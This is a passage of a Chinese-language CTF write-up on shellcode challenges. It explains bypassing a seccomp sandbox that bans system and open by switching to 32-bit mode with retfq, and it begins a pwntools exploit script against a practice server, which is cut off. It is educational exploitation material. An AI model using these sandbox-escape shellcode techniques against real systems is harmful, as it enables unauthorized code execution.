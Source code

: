 再试一下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610614861556-0008e9b3-bd1c-48c5-b66b-30e667bf4fd1.png)

成功获得shell。如果不修改脚本代码可以使用如下命令编码正确的shellcode：

> python2 main.py shellcode rax+29
>
> 暂不清楚rax+29的含义
>

# 禁用system和open，并限制shellcode字符
当程序利用sandbox禁用system和open之后，应该怎么办？

> 题目来自星盟师傅ex的shellcode：
>
> [http://pwn.eonew.cn/challenge.php](http://pwn.eonew.cn/challenge.php)
>

检查一下文件的保护：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610677720484-16930992-dea2-4ed1-a5fa-2f0b2e4d6ac3.png)

只开启了NX保护，64位程序，IDA里看一下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610677784645-834c083e-2fa0-4e7a-ac35-442710b22483.png)

上来的一串变量和系统调用给我一种不好的预感，应该开启了sandbox并且程序限制了只能输入可见字符：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610677883345-cc47456e-c41c-4231-a292-a078133456c3.png)

当然这道题并没有限制系统的架构，我们可以利用这一点来转换程序运行模式，和之前的orw一题还是不一样的：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610678048353-180daf74-e90d-43ec-898b-873db4999963.png)

先来看一下系统调用表吧：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610678134677-7ffbc9f3-4025-4beb-b721-3557a808baa0.png)

可以看到，在64位模式下系统虽然禁用了open函数，但是可以将程序切换到32位模式下来运行以此调用open函数，怎么转换？

修改程序运行模式需要用到**<font style="color:#F5222D;">retfq</font>**这个指令，这个指令有两步操作：**<font style="color:#F5222D;">ret和set cs</font>**。当cs=0x23程序以32位模式运行，当cs=0x33程序以64位模式运行。retfq这个指令参数是放在栈中，[rsp]为要执行的代码的地址,[rsp + 0x8]为0x23或0x33，类似于这样：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610681550438-37af9f79-8394-4472-a2b0-f430c8bd2b2d.png)

脚本如下：

```python
#-*- coding:utf8 -*-
from pwn import *
context(os = 'linux', log_level = 'debug')
DEBUG = 1
if DEBUG == 0:
    p = process('./shellcode_elf')
elif DEBUG == 1:
    p = remote('nc.eonew.cn', 10011)

code_append = asm('''
        push rcx
        pop rcx
''', arch = 'amd64', os = 'linux')
# 用mmap分配一段内存空间
code_mmap = asm('''
        /*mov rdi, 0x40404040*/
        push 0x40404040
```